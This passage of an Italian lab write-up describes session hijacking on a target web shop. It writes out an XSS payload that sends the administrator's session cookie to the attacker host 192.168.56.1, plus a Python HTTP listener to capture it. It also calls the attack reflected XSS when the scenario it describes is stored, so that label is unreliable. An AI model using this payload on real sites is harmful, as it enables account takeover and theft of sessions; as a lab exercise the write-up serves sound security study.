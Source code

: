 La porta 80 della macchina obiettivo risulta aperta per un web server. È possibile visitare il sito web ospitato, che risulta essere adibito alla vendita di prodotti medici. 

</br>

## Session hijacking


Sul sito, selezionando uno dei prodotti sul catalogo, è possibile compilare dei form per effettuarne l'ordine. Tali form potrebbero essere vulnerabili ad attacchi di tipo Cross-Site Scripting (XSS), che di solito consistono nell'injection di codice tramite input da webapp il cui contenuto non viene opportunamente validato o sanato: il codice malevolo viene inviato a un utente lato server, che lo mette ignaramente in esecuzione.

L'assunzione che viene fatta in questo scenario è la seguente: gli ordini effettuati vengono revisionati da un utente gestore del server, il quale dovrebbe avere su di esso privilegi amministrativi. L'idea è quindi quella di iniettare in uno dei form del codice per ottenere l'id di sessione dell'amministratore per poi impersonarlo (*session hijacking*). Il codice malevolo andrà in esecuzione non appena l'ordine fittizio verrà esaminato.

Il codice da iniettare è il seguente:

```javascript
<script>
document.write('<img src="http://192.168.56.1/'+document.cookie+'" width=0 height=0 border=0 />');
</script>
```

Lo script crea una pagina html in cui viene inserita un'immagine di dimensione nulla: per come è costruito l'url, alla macchina attaccante viene richiesta una risorsa il cui nome corrisponde al cookie di sessione del'amministratore. Quando il browser dell'amministratore apre l'ordine fittizio da revisionare, esso invia la richiesta per ottenere la risorsa a un server sulla macchina attaccante. 

Stando a [questa categorizzazione](https://owasp.org/www-community/attacks/xss/), quello in questione è un attacco XSS di tipo reflected, in cui il contenuto dell'injection viene direttamente eseguito sul web server obiettivo e non viene memorizzato (come invece accade negli attacchi XSS di tipo stored, che sono infatti caratterizzati da persistenza). 

In modo che la macchina attaccante possa accettare la richiesta del webserver è necessario avviare un server:

```bash
python -m http.server 80 
```

Poco dopo l'injection, dal log del server è visibile la richiesta per l'immagine dello script, in cui è esposto il cookie di sessione dell'amministratore. 

Si può notare che questa injection è categorizzabile come remota, senza autenticazione ma che per funzionare richiede un'azione da parte di un utente lato webserver.

<p align="center">
<img src="images/cookie1.png" width=80%/>
</p>
